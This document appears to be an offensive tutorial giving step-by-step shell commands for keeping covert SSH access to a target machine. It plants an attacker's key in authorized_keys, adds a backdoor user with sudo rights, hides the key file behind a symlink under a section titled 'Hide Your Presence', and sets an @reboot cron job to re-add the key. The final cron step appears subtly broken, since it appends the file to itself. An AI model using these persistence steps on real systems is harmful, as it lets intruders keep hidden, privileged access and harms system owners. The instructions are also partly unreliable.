 ### **Step 1. Generate SSH Keys**

1. Generate an SSH key pair on your local machine:
`ssh-keygen -t rsa -b 4096 -f ~/.ssh/persistence_key`
	- `-t rsa`: Specifies the type of key to create (RSA).
	- `-b 4096`: Specifies the number of bits in the key.
	- `-f ~/.ssh/persistence_key`: Specifies the file in which to save the key.

### **Step 2. Copy the Public Key to the Target Machine**

1.  Copy the public key to the target machine using SSH:
    `ssh-copy-id -i ~/.ssh/persistence_key.pub user@target_machine`
2.  Alternatively, manually add the public key to the target machine `~/.ssh/authorized_keys` file:  
    `cat ~/.ssh/persistence_key.pub | ssh user@target_machine "mkdir -p ~/.ssh && cat >> ~/.ssh/authorized_keys"`

### **Step 3. Ensure Proper Permissions**

On the target machine, ensure the `.ssh` directory and `authorized_keys` file have the correct permissions:

1.  Set the .ssh directory permissions to 700:  
    `chmod 700 ~/.ssh`
2.  Set the authorized_keys file permissions to 600:  
    `chmod 600 ~/.ssh/authorized_keys`

### **Step 4. Configure SSH for Key-Based Authentication**

Verify the SSH server configuration on the target machine to ensure key-based authentication is enabled. Edit /etc/ssh/sshd_config:  
`sudo nano /etc/ssh/sshd_config`

1.  Ensure the following lines are present and uncommented:  
    `PubkeyAuthentication yes`  
    `AuthorizedKeysFile .ssh/authorized_keys`
    
2.  Restart the SSH service to apply the changes:  
    `sudo systemctl restart sshd`
    
3.  Test SSH access using the private key:  
    `ssh -i ~/.ssh/persistence_key user@target_machine`
    

### **Step 5. Establish a Backup SSH User**

Create a new user on the target machine as a backup entry point:

1.  Add a new user:  
    `sudo adduser backupuser`
2.  Add the new user to the `sudo` group:  
    `sudo usermod -aG sudo backupuser`
3.  Add your public key to the new user `authorized_keys` file:  
    `ssh-copy-id -i ~/.ssh/persistence_key.pub backupuser@target_machine`

### **Step 6. Hide Your Presence**

Move the authorized_keys file to a hidden location and create a symbolic link:

1.  Create a hidden directory:  
    `mkdir -p ~/.config/.ssh`  
    
2.  Move the authorized_keys file:  
    `mv ~/.ssh/authorized_keys ~/.config/.ssh/authorized_keys`  
   
3.  Create a symbolic link:  
    `ln -s ~/.config/.ssh/authorized_keys ~/.ssh/authorized_keys`  


### **Step 7. Set Up a Cron Job for Persistence**

1.  Create a cron job to ensure your SSH key is re-added if removed:  
    `(crontab -l ; echo "@reboot sleep 60 && cat ~/.config/.ssh/authorized_keys >> ~/.ssh/authorized_keys") | crontab -`